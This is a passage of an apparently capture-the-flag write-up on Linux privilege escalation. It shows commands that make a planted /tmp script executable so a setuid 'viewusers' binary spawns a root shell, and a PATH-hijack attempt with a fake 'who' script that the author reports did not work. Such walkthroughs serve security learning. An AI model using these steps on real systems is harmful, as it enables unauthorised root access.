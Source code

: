 
change chmod to executable

    chmod +x /tmp/listusers

which if executed launches a shell

Return to `viewusers` who en turn will execute this file should launch a bash shell as root.

    viewusers

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556537970531_image.png)

## secondary exploit of “who” statement
![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556538703367_image.png)


 *what should be seen is “/usr/bin/who”*

Locate who

    which who

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556538792140_image.png)


change PATH

    export PATH=/dev/shm:$PATH
    echo $PATH

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556539717409_image.png)


now we can edit `who`

    vi who
    (insert above /bin/bash)
    #!/bin/bash
    echo "Sending a shell"
    /bin/bash

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556539816117_image.png)


change chmod to executable

    chmod +x who
    viewuser

![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556539907803_image.png)


*did not priv-esc because the “who” calls the /bin/bash before the setuid(0) in the function causing it not to be vulnerable.*

# Loot&Root
![](https://paper-attachments.dropbox.com/s_ECCB58BFC7B8C7FB4F76DF55CC98C0E5842EECCD8EA52152FDA61793F88C4ED5_1556538067513_image.png)



----------

don’t know who ippsec is? check him out at:
 
 Youtube: https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA
 Twitter: https://twitter.com/ippsec
 
 #hailippsec


